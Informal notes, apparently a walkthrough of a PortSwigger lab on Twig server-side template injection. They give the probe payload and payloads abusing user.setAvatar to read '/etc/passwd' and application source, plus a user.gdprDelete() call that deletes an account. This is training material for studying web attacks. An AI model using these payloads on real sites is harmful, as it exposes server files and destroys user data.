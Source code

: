   ```

* Then checked comment section of blog but got this error ->

  * ``` 
    ​```Internal Server Error
    
    PHP Fatal error:  Uncaught  Twig_Error_Syntax: Unexpected character "$" in "index" at line 1. in  /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Lexer.php:270 Stack trace: #0  /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Lexer.php(202): Twig_Lexer->lexExpression() #1  /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Lexer.php(105): Twig_Lexer->lexVar() #2  /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Environment.php(512): Twig_Lexer->tokenize(Object(Twig_Source)) #3  /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Environment.php(565): Twig_Environment->tokenize(Object(Twig_Source)) #4  /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Environment.php(368): Twig_Environment->compileSource(Object(Twig_Source)) #5  /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Environment.php(289): Twig_Environment->loadTemplate('index') #6 Command line code(10): Twig_Environment->render('index', Array) #7 {main}  thrown in  /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Lexer.php on  line 270
    ```

* Wow, so this template is TWIG

* By analyzing the error and response i played with payloads and finally this payload work and balanced the query -> }}${{7*'7'

* Result -> Peter$49

* I tried eveyrything but failed and getting error

* Then i remind there is image functionality too

* Try that parameter too

* While uploading image i tried this payload -> user.setAvatar('/etc/passwd')

* Got this result ->

  * ```
    PHP Fatal error:  Uncaught Exception: Uploaded file mime type is not an image: application/octet-stream in /home/carlos/User.php:28
    Stack trace:
    #0 /home/carlos/avatar_upload.php(19): User->setAvatar('/tmp/anything.t...', 'application/oct...')
    #1 {main}
      thrown in /home/carlos/User.php on line 28
    ```

* mime type ->  set /image/jpg -> user.setAvatar('/etc/passwd','image/jpg')

* Failed again

* Then i tried payload in comment section and checked -> avatar?avatar=wiener

* It opened a file with desire result

* This time i used payload -> }}${{user.setAvatar('/home/carlos/User.php','image/jpg')

* Got desire result

* user.first_name}}${{user.gdprDelete()

* From Portswigger ->

* ```
  ```